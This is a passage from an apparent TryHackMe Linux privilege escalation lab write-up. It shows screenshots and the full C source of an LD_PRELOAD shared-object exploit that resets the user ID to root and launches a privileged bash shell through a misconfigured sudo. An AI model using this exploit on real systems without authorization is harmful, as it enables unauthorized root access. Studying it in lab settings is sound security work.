![preload libs](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/linuxprivesc/linuxprivesc7.png)

yes, it works even for other libraries, this is due to nature of the source code of the exploits

![change libs](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/linuxprivesc/linuxprivesc8.png)

to elaborate, the contents of `/home/user/tools/sudo/preload.c` is

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

